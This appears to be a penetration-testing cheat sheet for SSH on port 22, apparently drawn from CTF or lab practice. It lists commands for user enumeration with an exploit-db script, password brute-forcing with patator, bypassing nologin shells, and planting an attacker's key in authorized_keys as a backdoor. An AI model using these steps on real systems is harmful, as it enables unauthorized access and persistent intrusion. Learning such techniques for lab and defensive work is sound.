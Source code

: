# Port 22 - SSH

### Connection

{% code overflow="wrap" %}
```bash
ssh root@192.168.142.154                 # password
ssh -i root_key root@192.168.142.154     # public/privatekey

# troubleshooting - v: verbose
ssh -v 192.168.1.94

# bypass /usr/bin/nologin or /usr/bin/false
ssh -v noraj@192.168.1.94 /bin/bash

# Force auth method
ssh -v 192.168.1.94 -o PreferredAuthentications=password

# Disable Strick Host Key check
ssh -v -o StrictHostKeychecking=no -i id_rsa <user>@<ip>    

# When attempting to SSH, the SSH client displays "Unable to negotiate with <IP address> port 22: no matching key exchange method found. Their offer: diffie-hellman-group1-sha1"
ssh j0hn@10.11.1.252 -p 22 -oKexAlgorithms=+diffie-hellman-group1-sha1
```
{% endcode %}

### SSH Audit

{% code overflow="wrap" %}
```bash
# When you need to debug and understand what is going on SSH connection wit hconfiguration, run the following command. This is bit old. 
https://github.com/arthepsy/ssh-audit 

ssh-audit 192.168.1.94
```
{% endcode %}

### SSH Keys

{% code overflow="wrap" %}
```bash
id_rsa          # private key
id_rsa.pub      # public key
Authorized_key  # a list of public keys stored in server
```
{% endcode %}

### User Enumeration

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>python /usr/share/exploitdb/exploits/linux/remote/40136.py -U /usr/share/wordlists/metasploit/unix_users.txt $ip
</strong></code></pre>

### Brute-foce SSH password

{% code overflow="wrap" %}
```bash
patator ssh_login host=sunday.htb port=22 user=sunny password=FILE0 0=/usr/share/seclists/Passwords/probable-v2-top1575.txt persistent=0
```
{% endcode %}

### SSH Backdoor

```bash
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

### Services to stop and start

{% code overflow="wrap" %}
```bash
# Enable the service
sudo systemctl enable ssh 

# Start and restart the service
sudo service ssh status
sudo service ssh restart

# Another way to start the service
sudo systemctl start ssh

# Find a SSH process
sudo ss -antlp | grep sshd
```
{% endcode %}
